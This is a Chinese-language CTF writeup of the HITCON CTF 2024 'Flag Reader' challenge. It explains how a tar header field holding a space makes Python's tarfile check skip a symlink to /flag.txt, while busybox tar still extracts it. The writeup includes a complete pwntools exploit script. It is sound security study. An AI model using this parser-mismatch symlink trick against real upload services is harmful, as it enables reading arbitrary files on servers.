 ```yaml
---
title: "HITCON CTF 2024 Writeup"
date: 2024-07-16T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# hitconctf-2024-writeup

這場與 `星爆吉娃娃`、`BambooFox`、以及我們 `B33f 50UP` 所組成的 `星爆牛炒竹狐` 隊伍一起打到了世界第 24 名、台灣排名第一名，並且打進今年 HITCON CTF 決賽。

這邊就來寫一下我解的題目 writeup。

## 戰績

![image](https://github.com/user-attachments/assets/1f60d911-041b-4419-9eb3-b1cfe0e46feb)

![image](https://github.com/user-attachments/assets/4278d28e-9f26-4ef1-9ebb-443a0a18adce)

![image](https://github.com/user-attachments/assets/fb014145-7e99-4cb2-8f6d-b3e50ee87d4d)

![image](https://github.com/user-attachments/assets/f33a0522-3ffc-4306-a5f3-b9f7a180bb7b)

## Flag Reader

![image](https://github.com/user-attachments/assets/a3a33711-1427-4d0b-ab7b-c1c11c218d55)

目標是上傳一個帶有 flag.txt -> /flag.txt 的 symlink，但是 server 的 python 會用 tarfile 做一次 tarinfo 的檢查，檢查一定要是 file 且名字不能帶 flag.txt，檢查過才會用 subprocess 跑 busybox tar 去解檔。

首先我先去看[tarfile 定義為 isfile 的檔案類型](https://github.com/python/cpython/blob/b455a5a55cb1fd5bb6178a969e8ebd0e6e91b610/Lib/tarfile.py#L122)

```python
REGULAR_TYPES = (REGTYPE, AREGTYPE,
                 CONTTYPE, GNUTYPE_SPARSE)
```

發現 typebyte 要設成 `\0`、`0`、`7`、`S` isfile 結果才會是 true。

最一開始我注意到 `S` 這個東西，發現是 [GNU 特有的 type](https://www.gnu.org/software/tar/manual/html_section/Sparse-Formats.html) 但是不知道為何我用自己 linux 測以後，發現 `tarfile` 會認 Sparse file 但是 `tar` 不知道為何還是按照一般的檔案去解，這邊可能有待研究。

反正我先建了一個 tar 包了兩個檔案，一個是一個動過手腳的空 Sparse file 一個就 flag 的 symlink，這邊的製作方式是。

```bash
touch 1
ln -s /flag.txt flag.txt
tar cvf 1 flag.txt
```

接著用 Hex editer 改，把 header offset 482 的 isextended 設成 true （非 \0）這樣他就會多讀一個 Block 作為 Sparse 的 extend header，那那個 Block 原本是放 flag.txt 的 header 就會被蓋掉，這樣 `tarfile` 就只會認出個檔案而已，但是因為上面講的 tar 沒認 Sparse file 所以她解開就會把兩個檔案都解開，應該就能繞過檢查。

但是發現失敗了，自己架一次以後發現原因出在 [busybox tar 的這個位置](https://github.com/brgl/busybox/blob/abbf17abccbf832365d9acf1c280369ba7d5f8b2/archival/libarchive/get_header_tar.c#L432)可以發現他沒有實作 Sparse file，然後遇到沒有實作的 type 就會直接 Crash。

因此我開始找別的突破點，後來發現。

我們可以去比對 python tarfile 跟 busybox tar 的 source code 裡面讀取數字的地方。
[tarfile](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py#L175)
[busybox tar](https://git.busybox.net/busybox/tree/archival/libarchive/get_header_tar.c?h=1_36_stable#n21)

可以發現兩邊的行為有很多不一致，其中有一個地方是 busybox tar 那邊取數字的取法是把該 field 範圍的字串用 `strtoull` 以 base 8 轉成 `unsigned long long`，而 `strtoull` 會從 low byte 開始讀數字，讀到第一個非數字為止，而接下來會做判斷。

```c
v = strtoull(str, &end, 8);
/* std: "Each numeric field is terminated by one or more
 * <space> or NUL characters". We must support ' '! */
if (*end != '\0' && *end != ' ') {
```

可以看到他會檢查非數字如果是 '\0' 或 ' ' 就不會走進 if，而裡面是處理大數字時改為用 base 256 計算的方式。也就是說如果我們把數字的 field 改成 `0 1111111` 這類的，他會得到 `0`。

接著看一下 `tarfile` 的 `nti`。

```python
def nts(s, encoding, errors):
    """Convert a null-terminated bytes object to a string.
    """
    p = s.find(b"\0")
    if p != -1:
        s = s[:p]
    return s.decode(encoding, errors)

def nti(s):
# .....................
    else:
        try:
            s = nts(s, "ascii", "strict")
            n = int(s.strip() or "0", 8)
        except ValueError:
            raise InvalidHeaderError("invalid header")
# .....................
```

可以看到他會先找到第一個 '\0' 以後將前面的 byte 做 decode 以後用 int 以 base 8 轉成整數，那如果按照上面用 `0 1111111` 會發生甚麼事情。

```
>>> int('0 11111', 8)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 8: '0 11111'
```

可以發現他會直接 `ValueError` 而 `ValueError` 會 raise `InvalidHeaderError`

接著去看 `TarFile.next` 


```python
tarinfo = None
while True:
    try:
        tarinfo = self.tarinfo.fromtarfile(self)
    except EOFHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
    except InvalidHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
        elif self.offset == 0:
            raise ReadError(str(e)) from None
#...............................
    break

if tarinfo is not None:
    self.members.append(tarinfo)
else:
    self._loaded = True

return tarinfo
```

可以發現如果 `InvalidHeaderError` 且 `self.offset != 0` 也就是不是第一個 block 的時候就會停止讀取。所以如果我在第二個檔案的 tar header 裡隨便找個數字並塞個 space 的話，`tarfile` 就會只認出一個檔案，這時如果我把 `flag.txt` 的 symlink 放在第二個檔案以後，`tarfile` 就不會檢查到，同時又可以被 busybox 的 `tar` 解出來。這樣就能繞過檢查了。

exploit:

```python
from pwn import *
import subprocess
from pathlib import Path
from tempfile import TemporaryDirectory
import base64
import sys

BLOCK_SIZE = 512

def calculate_tar_checksum(header):
    if len(header) != BLOCK_SIZE:
        raise ValueError(f"Header must be exactly {BLOCK_SIZE} bytes.")

    checksum = 0

    for i in range(BLOCK_SIZE):
        if 148 <= i < 156:
            checksum += 32
        else:
            checksum += header[i]

    return checksum

with TemporaryDirectory() as tmpdir:
    subprocess.run(
        ["touch", '1'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["touch", '2'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["ln", "-s", "/flag.txt", 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["tar", "cvf", "payload.tar", '1', '2', 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    payload = Path(tmpdir) / "payload.tar"
    with open(payload, "rb") as f:
        payloadbytes = f.read()

payloadbytes = bytearray(payloadbytes)
payloadbytes[1 * BLOCK_SIZE + 0x7D] = ord(' ')
payloadbytes = bytes(payloadbytes)
header_block = payloadbytes[1 * BLOCK_SIZE:2 * BLOCK_SIZE]
checksum = oct(calculate_tar_checksum(header_block))[2:].zfill(6)
payloadbytes = bytearray(payloadbytes)
for i in range(len(checksum)):
    payloadbytes[1 * BLOCK_SIZE + 0x94 + i] = ord(checksum[i])
payloadbytes = bytes(payloadbytes)

payloadbase64 = base64.b64encode(payloadbytes)
conn = remote(sys.argv[1], int(sys.argv[2]))
conn.sendline(payloadbase64)
print(conn.recvuntil(b'\n\n'))
```

![image](https://github.com/user-attachments/assets/22bbb2b6-242e-4211-a3ac-12936b702fe0)

`hitcon{is_it_still_possible_if_I_banned_the_presense_of_flag.txt_in_the_binary_data_of_the_tar_file?}`

## 其他隊友的 writeup

[Hackmd](https://hackmd.io/@Vincent550102/rydOoLWOR)

